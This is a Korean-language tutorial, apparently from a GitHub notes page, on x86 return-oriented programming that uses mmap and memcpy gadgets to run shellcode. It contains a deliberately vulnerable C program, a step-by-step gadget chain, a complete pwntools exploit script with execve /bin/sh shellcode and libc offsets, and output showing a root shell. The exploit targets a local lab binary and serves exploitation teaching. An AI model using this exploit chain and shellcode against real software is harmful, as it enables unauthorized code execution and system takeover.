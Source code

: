 # **x86 Return Oriented Programming(mmap)**

ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.

## **Proof of Concept**  

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o rop rop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
 
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

"A"*66을 입력해 Overflow 가능.

```
gdb-peda$ x/24wx $ebp
0xbffff538:	0x41414141	0x0804850a	0xb7fb63dc	0xbffff560
```

**POPAD**: 스택에 존재하는 값을 EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI 레지스터에 저장.

```
gdb-peda$ x/24wx $esp
0xbfdfca50:	0x41414141	0x42424242	0x43434343	0x44444444
0xbfdfca60:	0x45454545	0x46464646	0x47474747	0x48484848
```

이 상태에서 POPAD할 경우 다음과 같이 레지스터에 저장된다.

```
EAX: 0x48484848 ('HHHH')
EBX: 0x45454545 ('EEEE')
ECX: 0x47474747 ('GGGG')
EDX: 0x46464646 ('FFFF')
ESI: 0x42424242 ('BBBB')
EDI: 0x41414141 ('AAAA')
EBP: 0x43434343 ('CCCC')
ESP: 0xbfdfca70 ("IIIIlg۷n313337277")
```

**PUSHAD**: EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI 순으로 레지스터의 값을 스택에 저장한다.  
위와 같이 POPAD 한 상태에서 PUSHAD 한 경우의 esp.

```
gdb-peda$ x/24wx $esp
0xbfe351f4:	0x41414141	0x42424242	0x43434343	0xbfe35214
0xbfe35204:	0x45454545	0x46464646	0x47474747	0x48484848
```

## **Exploit Method**
1. mmap() 함수를 이용하여 새로운 메모리 영역 할당
1. POPAD Gadget에 의해 memcpy() 함수 주소가 저장된 영역으로 이동
  * Libc의 memcpy() 함수는 Exploit Code에서 사용할 Memory 값을 복사할 수 없다.
  * memcpy() 함수는 CPU가 지원하는 Streaming SIMD 확장에 맞는 함수의 주소값을 리턴(EAX에 저장됨)
1. XCHG EAX,EDI Gadget에 의해 리턴받은 __memcpy_sse2_unaligned() 함수의 주소를 EDI 레지스터에 저장
1. POP ESI Gadget에 의해 memcpy()함수 호출 후 이동할 return address를 ESI 레지스터에 저장
1. POP EBP Gadget에 의해 1번째 인자 값을 EBP 레지스터에 저장
1. POP EBX Gadget에 의해 3번째 인자 값을 EBX 레지스터에 저장
1. PUSHAD Gadget에 의해 레지스터에 저장된 값들을 Stack 에 저장하고 0x1028 영역(0x1048 - (0x4 * 레지스터 개수(8))으로 이동
  * 2 번째 인자 값은 ESP 레지스터에 저장되어 있기 때문에 별도의 조작이 필요하지 않다.
1. 0x1028 영역에서 memcpy() 함수로 인해 Stack에 저장된 shellcode가 mmap()에 의해 생성된 메모리 영역으로 복사
1. memcpy() 함수가 종료되면 mmap()에 의해 생성된 메모리 영역으로 이동하여 shellcode를 실행
  * 해당 영역은 RWX 권한이 설정되어 있기 때문에 Shellcode 실행이 가능.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

binary = ELF('./rop')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
p=process('./rop')
#gdb.attach(p)
p.recvline()
printf_addr = int(p.recvline().split()[3],16)

print('printf_addr: '+str(printf_addr))

libBase = printf_addr - 0x49670
libc_mmap = libBase + libc.symbols['mmap']
libc_memcpy = libBase + libc.symbols['memcpy']

libc_popad_ret = libBase + 0x0016b802
libc_pushad_ret = libBase + 0x0000c76c
libc_xchg_eax_edi = libBase + 0x000f5c6b
libc_pop_esi = libBase + 0x00124c3f
libc_pop_ebp = libBase + 0x00136d43
libc_pop_ebx = libBase + 0x00143fe3

new_mem = 0x20000000

payload = "A"*66
# mmap(new_mem,0x1000,0x7,0x22,0xffffffff,0)
payload += p32(libc_mmap)
payload += p32(libc_popad_ret)
payload += p32(new_mem)
payload += p32(0x1000)
payload += p32(0x7)
payload += p32(0x22)
payload += p32(0xffffffff)
payload += p32(0)
payload += 'AAAA'*2

# memcpy(new_mem,'address of shellcode',len(shellcode))
payload += p32(libc_memcpy)
payload += p32(libc_xchg_eax_edi)
payload += p32(libc_pop_esi)
payload += p32(new_mem)
payload += p32(libc_pop_ebp)
payload += p32(new_mem)
payload += p32(libc_pop_ebx)
payload += p32(len(shellcode))
payload += p32(libc_pushad_ret)
payload += shellcode

#raw_input("1")
p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/test# python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/root/test/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/lib/i386-linux-gnu/libc-2.23.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './rop': pid 4854
printf_addr: 3084265072
[*] Switching to interactive mode
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect>
